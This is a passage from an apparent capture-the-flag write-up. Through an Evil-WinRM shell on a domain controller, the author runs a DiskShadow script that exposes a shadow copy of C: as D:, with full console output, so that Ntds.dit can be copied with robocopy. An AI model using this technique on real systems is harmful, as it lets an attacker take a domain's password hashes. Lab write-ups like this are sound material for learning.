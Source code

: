 In this script, we are creating a copy of the C: drive, aliasing as "bruh", and then creating a D drive based on "bruh". Additionally, this D drive will remain even after the Diskshadow program is done running. Now we upload the file in our Evil-WinRM session and then copy (using robocopy, since normal copy won't take into account our privileges). While theoretically we could just use robocopy to read the root flag and not do all this extra stuff, we're here for Administrator, not the flag.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload bruh.dsh
*Evil-WinRM* PS C:\> mkdir Tmp

    Directory: C:\
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        12/6/2021  10:38 AM                Tmp

*Evil-WinRM* PS C:\> cd Tmp
*Evil-WinRM* PS C:\Tmp> diskshadow /s C:\Users\svc_backup\Documents\bruh.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  12/6/2021 10:38:22 AM

-> set context persistent nowriters
-> add volume c: alias bruh
-> create
Alias bruh for shadow ID {19b94ea2-ef16-485a-9023-0c64f17a766e} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2ab08ddb-2f6c-4e42-a03e-b4cafa37f7f9} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2ab08ddb-2f6c-4e42-a03e-b4cafa37f7f9}

        * Shadow copy ID = {19b94ea2-ef16-485a-9023-0c64f17a766e}               %bruh%
                - Shadow copy set: {2ab08ddb-2f6c-4e42-a03e-b4cafa37f7f9}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 12/6/2021 10:38:23 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %bruh% d:
-> %bruh% = {19b94ea2-ef16-485a-9023-0c64f17a766e}
The shadow copy was successfully exposed as d:\.
->

```

I had to create a directory and run the script in the new directory because I ran into issues regarding write access in the directory that I ran the script in. Now that we have a copy of Ntds.dit that isn't in constant use, we can copy it with robocopy.
